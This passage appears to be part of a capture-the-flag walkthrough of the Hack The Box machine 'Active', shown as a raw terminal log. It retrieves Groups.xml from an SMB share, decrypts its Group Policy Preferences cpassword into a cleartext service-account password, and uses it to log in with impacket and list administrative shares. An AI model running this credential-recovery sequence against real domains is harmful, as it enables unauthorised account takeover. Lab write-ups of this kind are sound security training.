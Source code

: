 -rw-rw-rw- 2788 Sat Jul 21 12:38:11 2018 Registry.pol  
# cd Preferences  
# ls  
drw-rw-rw- 0 Sat Jul 21 12:37:44 2018 .  
drw-rw-rw- 0 Sat Jul 21 12:37:44 2018 ..  
drw-rw-rw- 0 Sat Jul 21 12:37:44 2018 Groups  
# cd Groups  
# ls  
drw-rw-rw- 0 Sat Jul 21 12:37:44 2018 .  
drw-rw-rw- 0 Sat Jul 21 12:37:44 2018 ..  
-rw-rw-rw- 533 Sat Jul 21 12:38:11 2018 Groups.xml

# get Groups.xml  
# exit

root@kali:~/active# cat Groups.xml

<?xml version="1.0" encoding="utf-8"?>  
<Groups clsid="{3125E937-EB16-4b4c-9934-544FC6D24D26}"><User clsid="{DF5F1855-51E5-4d24-8B1A-D9BDE98BA1D1}" name="active.htb\SVC_TGS" image="2" changed="2018-07-18 20:46:06" uid="{EF57DA28-5F69-4530-A59E-AAB585$  
8219D}"><Properties action="U" newName="" fullName="" description="" cpassword="edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ" changeLogon="0" noChange="1" neverExpires=$  
1" acctDisabled="0" userName="active.htb\SVC_TGS"/></User>  
</Groups>

root@kali:~/active# python gpprefdecrypt.py edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ  
GPPstillStandingStrong2k18  
root@kali:~/active# python smbclient.py SVC_TGS:GPPstillStandingStrong2k18@10.10.10.100  
Impacket v0.9.18 - Copyright 2018 SecureAuth Corporation

Type help for list of commands

# shares

ADMIN$  
C$  
IPC$  
NETLOGON  
Replication  
SYSVOL  
Users

